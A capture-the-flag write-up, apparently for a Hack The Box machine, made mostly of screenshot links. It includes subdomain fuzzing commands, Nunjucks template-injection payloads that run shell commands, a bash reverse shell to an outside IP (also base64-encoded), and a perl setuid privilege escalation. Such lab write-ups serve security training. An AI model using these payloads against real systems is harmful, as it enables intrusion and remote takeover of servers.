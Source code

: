 ![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0b4fe793-b8b7-499f-9dc3-0d7f2dbc42a5)1.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3b7b1e08-e98c-4497-9520-1f112bb70c54)

2.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2004824b-ce1f-4e81-b032-03b5694d6474)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d4f64624-14ea-43cd-882b-7cdaaa998424)

3.
Signup:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/85432824-3fef-4900-92b1-8b8eed99f263)

Login:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d2ddddb7-8d36-46b5-96d0-c720828e2f84)

4.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/2977a9df-af8d-4698-bc24-d9f76fafe823)

5. `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb"`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4f8cd75a-ca63-49c0-8cff-550ce3fb036e)

6. `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb" --hh 30587`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/28f5989e-71b7-4257-9394-780f84b122f0)

7.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e60ce229-8654-42f6-bcdc-6797d84481f0)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/37f1e264-4386-4eeb-bb4e-a72f5faf3b16)

8.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/270df8d4-f4d2-4757-b912-e22fabf99f97)

9.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/10ffb2b8-4c6b-4829-b01f-5e96c6dbb527)

10.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/36edf8ba-8383-4cb2-86db-b08aa8e204f3)

11. [Payload](https://github.com/geeknik/the-nuclei-templates/blob/main/node-nunjucks-ssti.yaml)

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('insert any bash command')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f3db7daf-cf4c-4761-a941-849ba8a5cd67)

12. [tool](https://www.revshells.com/)

payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/10.10.14.20/777 0>&1"')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bbe97c82-70a3-433d-90cd-2084bedeed2a)

13. `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /home/david/user.txt')\")()}}@gmail.com`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/425014a2-35de-46ff-996e-afb60f374550)

14.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1fab502a-8d7b-44eb-bf45-018bab675c40)

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMC83NzcgMD4mMQo= | base64 -d > /home/david/payload.sh')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0251335b-6203-4b99-b504-b6e2b677ce0a)

Check:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/346a8d55-47e0-4946-b135-c902735d1b7d)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/778f5dd5-384a-4892-909a-78ab6fd35ec1)

15. `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash ~/payload.sh')\")()}}@gmail.com`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6d8354fd-304e-4a1e-81d2-759249212bc6)

Host:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8818ce95-fbbf-4c19-b656-1a28599721e5)

16.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/42fc94ce-8421-4285-a47c-32ae4b69d5a0)

17.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/303fe797-ef49-4dcb-81ae-785804ae8d70)

18. [web](https://gtfobins.github.io/gtfobins/perl/#capabilities)

Checking perl location:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/09cb1ea2-5587-451a-86b9-0c4ffcc96e24)

Payload:
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9e7e5996-ca7a-46a7-bfa6-c8cccb2feb87)

19.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f07731f3-52e7-4185-9d6a-b6f9f57229fd)

20. `echo '#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";' > root.pl`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/05c7b034-7aab-4506-ae20-7a13e9f1a04c)

21.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d65db7ba-066e-434b-9423-40489e487a8a)

22.






















